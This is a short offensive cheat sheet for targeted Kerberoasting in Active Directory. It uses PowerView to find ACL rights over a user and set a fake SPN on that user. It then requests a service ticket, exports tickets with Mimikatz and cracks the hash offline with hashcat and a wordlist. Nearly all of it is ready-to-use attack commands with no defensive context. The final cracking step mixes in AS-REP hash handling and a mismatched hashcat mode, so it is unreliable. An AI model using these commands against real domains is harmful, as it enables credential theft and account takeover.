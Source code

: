 # Set SPN

**Enumerate permissions for group on ACL**

```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```

**Check if user has SPN**

```
. ./Powerview_dev.ps1
Get-DomainUser -Identity <username> | select samaccountname, serviceprincipalname
```

of

```
Get-NetUser | Where-Object {$_.servicePrincipalName}
```

**Set SPN for the user**

```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -Set @{serviceprincipalname=’ops/whatever1’}
```

**Request a TGS**

```
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
```

**Export ticket to disk for offline cracking**

```
Invoke-Mimikatz -Command '"Kerberos::list /export"'
```

**Request TGS hash for offline cracking hashcat**

```
Get-DomainUser -Identity <username> | Get-DomainSPNTicket | select -ExpandProperty Hash
```

**Crack the hash with hashcat**

Edit the hash by inserting '23' after the krb5asrep, so krb5asrep.......

```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```
